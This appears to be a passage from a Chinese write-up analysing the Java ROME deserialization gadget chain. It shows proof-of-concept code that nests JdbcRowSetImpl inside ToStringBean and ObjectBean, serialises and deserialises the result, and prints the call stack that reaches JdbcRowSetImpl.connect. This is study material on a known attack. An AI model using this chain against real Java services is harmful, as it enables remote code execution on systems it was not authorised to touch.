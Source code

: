 ```plain
        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);
        // 创建ObjectBean
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "bbbb");

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("JdbcRowExp.bin"));
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("JdbcRowExp.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }
}
```

### 函数调用栈

```plain
connect:615, JdbcRowSetImpl (com.sun.rowset)
getDatabaseMetaData:4004, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:110, ObjectBean (com.sun.syndication.feed.impl)
hash:338, HashMap (java.util)
readObject:1397, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:42, JdbcRowExp (RomeSec)
```
